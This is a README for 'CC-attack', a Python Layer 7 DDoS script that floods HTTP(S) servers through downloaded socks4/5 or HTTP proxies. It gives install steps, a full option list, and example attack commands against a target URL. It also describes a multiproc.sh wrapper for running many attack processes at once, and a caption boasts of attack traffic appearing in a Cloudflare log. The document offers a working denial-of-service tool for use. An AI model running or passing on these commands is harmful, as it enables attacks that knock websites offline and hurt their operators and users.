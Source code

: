        /////    /////    /////////////
      CCCCC/   CCCCC/   | CC-attack |/
     CC/      CC/       |-----------|/ 
     CC/      CC/       |  Layer 7  |/ 
     CC/////  CC/////   | ddos tool |/ 
      CCCCC/   CCCCC/   |___________|/

# CC-attack ![](https://img.shields.io/badge/Version-3.7.1-brightgreen.svg) ![](https://img.shields.io/badge/license-GPLv2-blue.svg)
 A script for using socks4/5 or http proxies to attack http(s) server.

 News:
- ✅ Added Support of HTTP proxies
- ✅ Updated proxy list based on rewritten script.
- ❌ Proxy checker are currently not working for now. You can still use the script without checking the proxy.

 Info:
- ✅ Using Python3
- ✅ Added more human-like options
- ✅ Http Get/Head/Post/Slow Flood
- ✅ Random Http Header/Data
- ✅ Socks4/5 Proxies Downloader
- ✅ Socks4/5 Proxies Checker
- ✅ Customize Cookies
- ✅ Customize Post Data 
- ✅ Support HTTPS
- ✅ Support Socks4/5

## Showcase
Using multiproc.sh with socks4 on a vps
![](https://i.imgur.com/KLJIZs8.png)

Attack requests from Cloudflare activity log
![](https://i.ibb.co/ySTWQ2M/Screenshot-119.png)

## Install
    If you only have one version of python:
    git clone https://github.com/Ni3zam/CC-attack.git
    cd CC-attack
    pip install -r requirements.txt
    python cc.py -help

    If you are using multiple version of python:
    git clone https://github.com/Ni3zam/CC-attack.git
    cd CC-attack
    pip3 install -r requirements.txt
    python3 cc.py -help

## Usage

    python cc.py <arguments> / python3 cc.py <arguments>

```
===============  CC-attack help list  ===============
   -h/help   | showing this message
   -url      | set target url
   -m/mode   | set program mode
   -data     | set post data path (only works on post mode)
             | (Example: -data data.json)
   -cookies  | set cookies (Example: 'id:xxx;ua:xxx')
   -v        | set proxy type (4/5/http, default:5)
   -t        | set threads number (default:800)
   -f        | set proxies file (default:proxy.txt)
   -b        | enable/disable brute mode
             | Enable=1 Disable=0  (default:0)
   -s        | set attack time(default:60)
   -down     | download proxies
   -check    | check proxies
=====================================================
```
### Some example of the usage
Download socks5 proxies as proxy.txt:
```
python3 cc.py -down -f proxy.txt -v 5
```
Attack a target with custom proxies list(socks4.txt) for 30 seconds :
```
python3 cc.py -url http://target.com -f socks4.txt -v 4 -s 30
```

## Usage of multiproc.sh
```
This script is using for increasing the performance of cc.py.
Due to the suck performance of python since it has a GIL lock,
And I am lazy to make a multiprocess version.
There is a option for linux user to increase their performance of cc.py

This script basicly just run cc.py multiple times to make it "multi-processing"

First, put this script and cc.py in the same folder.

Then prepare the proxies list by yourself or just run "python3 cc.py -down -v 4" (-v socks version)

After that, change the number of process.

At last, change atk_cmd to your command and run the script by "bash multiproc.sh"
```
Example setup of multiproc.sh (-v socks version) (-s attack time)
```
atk_cmd="python3 cc.py -url http://target.com -v 4 -s 60"

#number of process that you want
process=10

```

